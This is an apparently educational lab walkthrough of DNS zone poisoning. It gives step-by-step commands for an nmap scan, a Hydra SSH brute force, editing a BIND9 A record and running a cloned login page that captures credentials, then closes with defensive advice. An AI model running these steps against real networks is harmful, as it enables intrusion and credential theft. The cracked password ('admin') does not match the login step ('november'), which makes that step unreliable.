

## Prerequisites

Before starting, make sure the following are in place:

1. VirtualBox or VMware Workstation Pro installed
2. `project-x-corp-svr` is configured with Docker
3. DNS container (`corp-server-dns-server`) is set up and running
4. Web container (`corp-server-web-server`) is set up and running
5. `project-x-attacker` is turned on


## Scenario
 
In this scenario, the attacker (`project-x-attacker`) has identified an exposed SSH port on the corporate server (`10.0.0.8`) and uses it as an entry point into the DNS container running on that host. Once inside the container, the attacker modifies the internal BIND9 zone file to redirect `www.projectxcorp.com` to a fake web server they control — causing any victim on the network (`project-x-win-client`) who navigates to that domain to land on a cloned login page without any visible warning.

## Likeliness Meter


**Rating: Moderate**

DNS zone poisoning on its own would be rated **Unlikely** — it requires the attacker to have already gained access to the DNS server, which is a significant prerequisite. However, DNS as a whole is rated **Moderate** as an attack surface because there is so much that can go wrong: misconfigured zones, open recursion, unvalidated cache entries, weak access controls on zone files. A compromise at any point in the DNS chain leads to severe downstream consequences — traffic redirection, credential theft, and complete loss of network trust.

The key nuance: **public-facing** DNS is typically hardened by large infrastructure providers and difficult to poison. **Internal** DNS servers running in a business LAN — like the one we've set up in this lab — are far more likely to have misconfigurations that an attacker can exploit once they're on the network.

## Background: Man-in-the-Middle (MiTM) and DNS

### What is a MiTM Attack?

A **Man-in-the-Middle (MiTM)** attack occurs when a threat actor secretly intercepts, relays, or alters communication between two parties without either party knowing. Both sides believe they're communicating directly with each other — but everything is passing through the attacker.

DNS is one of the most valuable targets for MiTM attacks because it sits at the very foundation of how networks communicate. Every time a user types a domain name into a browser, a DNS query goes out to resolve it to an IP address. If an attacker can control that resolution, they control where the user ends up — regardless of what domain name the user typed.

### What is DNS Zone Poisoning?

DNS Zone Poisoning is a specific variant of DNS-based MiTM. Rather than intercepting DNS queries in transit (DNS cache poisoning), zone poisoning involves **directly modifying the zone file on a DNS server** — the source-of-truth file that defines which IP addresses domain names resolve to.

If an attacker gains write access to a zone file, they can change an `A` record to point any domain to an IP address they control. Every client using that DNS server will then be silently redirected to the attacker's machine.

## Impact

A successful DNS zone poisoning attack can lead to:

- **Credential theft** — Users land on a cloned login page and unknowingly hand over their username and password
- **Data interception** — Sensitive information submitted through forms is captured by the attacker
- **Network traffic redirection** — Any service resolved by the poisoned DNS server can be hijacked
- **Loss of integrity** — Users lose the ability to trust that they're talking to the real service

## Running the Attack

### The Objective

The goal is to redirect `www.projectxcorp.com` to a web server controlled by the attacker. The attacker copies the real internal portal, makes it look identical, and captures credentials when an employee — Jane or John — logs in thinking they're on the legitimate site.

### Step 1 — Reconnaissance from the Attacker Machine

On `project-x-attacker`, start with an Nmap scan to identify what's running on the corporate server:

```bash
nmap -p1-5000 -Pn -sV 10.0.0.8
```

The scan results will show a few ports of interest — notably **port 22** and **port 2222**. Port 22 is the host SSH service on `project-x-corp-svr` itself. Port 2222 is the SSH service we configured inside the DNS container.


### Step 2 — Brute-Force SSH into the DNS Container

With port 2222 open, we attempt to brute-force the SSH credentials using Hydra:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8 -s 2222
```

The password comes back as `admin` — exactly the weak root password we set during the DNS container setup.



Log in to the DNS container:

```bash
ssh root@10.0.0.8 -p 2222
# password: november
```


### Step 3 — Post-Compromise Recon Inside the Container

Now that we're inside, we start looking around to understand what this server does.

**Check active network services:**

```bash
netstat -tuln
```

Port 53 is listening — this is a DNS server. Combined with the earlier Nmap finding, this confirms the container is the internal DNS service for `10.0.0.8`.


**Check recently installed software:**

```bash
grep " install " /var/log/dpkg.log
```


Searching around confirms **BIND9** is the DNS software in use. A quick search tells us the default BIND9 configuration directory is `/etc/bind`.

### Step 4 — Find and Inspect the Zone File

Navigate to the BIND9 config directory:

```bash
ls /etc/bind
cat /etc/bind/named.conf
```

The `named.conf` file reveals a zone declaration for `projectxcorp.com`, pointing to a zone file at `/etc/bind/zones/db.projectxcorp.com`. Let's look at it:

```bash
cat /etc/bind/zones/db.projectxcorp.com
```

The zone file shows the `A` record for `www.projectxcorp.com` currently pointing to `10.0.0.8` — the web container we set up in Part 2. This is the internal corporate portal.


This is our target. We can edit this file to redirect `www.projectxcorp.com` to any IP we control.

### Step 5 — Poison the Zone File

Edit the zone file and change the `www` A record from `10.0.0.8` to `10.0.0.50` — the attacker machine's IP:

```bash
nano /etc/bind/zones/db.projectxcorp.com
```

Change:
```
www     IN      A       10.0.0.8
```

To:
```
www     IN      A       10.0.0.50
```

Also increment the **Serial** number in the SOA record by 1 — this tells BIND9 that the zone has been updated:

```
2         ; Serial  →  change to  3
```

Save and exit.


Flush the DNS cache and restart BIND9 to apply the change:

```bash
rndc flush
service named restart
```


### Step 6 — Stand Up the Fake Web Server on the Attacker Machine

Open a **new terminal** on `project-x-attacker` (keep the SSH session to the DNS container open).

Navigate to the Apache web root and set up the fake portal:

```bash
cd /var/www/html
```

Clone the exercise web files (or copy the `index.html` from the real web container — the one we built in Part 2 — and modify it slightly to capture credentials):

```bash
# Option: copy the real portal's index.html and modify it
# The cloned page should look identical to the real projectxcorp.com portal
# but route form submissions to a local credential capture script
service apache2 start
```

> 💡 The attacker's fake page looks identical to `www.projectxcorp.com`. The only difference — any credentials submitted go straight to the attacker.


### Step 7 — Verify the Victim's DNS is Pointing to Our Server

On `project-x-win-client`, confirm the machine is using `10.0.0.8` as its DNS resolver. Open **Control Panel → Network and Internet → Network Connections**, check the adapter's DNS settings and make sure it's set to `10.0.0.8`.


From the Windows client, do a quick DNS lookup to confirm the poison has taken effect:

```cmd
nslookup www.projectxcorp.com
```

The result should now return `10.0.0.50` instead of `10.0.0.8` — the attacker machine.

### Step 8 — The Victim Lands on the Fake Page

Still on `project-x-win-client`, open a browser and navigate to:

```
http://www.projectxcorp.com
```

The browser resolves the domain, gets back `10.0.0.50`, and loads the attacker's fake portal — which looks exactly like the real `www.projectxcorp.com` internal login page.


John (logged in as `johnd`) enters his credentials and submits the form.


### Step 9 — Capture the Credentials

Back on the attacker machine, check the credential capture log:

```bash
cat /var/www/html/creds.log
```


Credentials captured. The victim had no idea they weren't on the real site.

## Conclusion

DNS zone poisoning is a surgical attack. Unlike ARP cache poisoning — which is loud, broadcasts to the whole network, and resets when devices refresh their ARP tables — DNS zone poisoning is persistent. Once the zone file is modified and BIND9 is reloaded, **every single client** using that DNS server is affected, and the redirect stays in place until someone notices the zone file has changed and reverts it.

The attack chain here is worth reflecting on:

1. An open SSH port on the DNS container with a weak root password gave us initial access
2. Once inside, finding the BIND9 zone file was trivial — it's a well-known default path
3. A two-line edit to the zone file was enough to redirect an entire internal domain
4. The victim had zero indication anything was wrong — the URL in the browser looked correct

This is exactly why DNS security matters:

- **Restrict SSH access** to DNS servers — ideally key-based only, never password auth
- **Lock down zone file permissions** — only the BIND9 process should be able to write to zone files
- **Monitor zone file changes** with file integrity monitoring
- **Use DNSSEC** to cryptographically sign zone records so clients can verify authenticity
- **Audit DNS server access logs** regularly for unexpected logins

The likeliness rating of **Moderate** reflects that while zone poisoning itself requires existing server access, DNS as an attack surface is genuinely relevant — particularly for internal networks where DNS servers are often less hardened than their public-facing counterparts.

---

*Next up — IP Spoofing, where we manipulate packet headers to impersonate trusted sources on the network.*
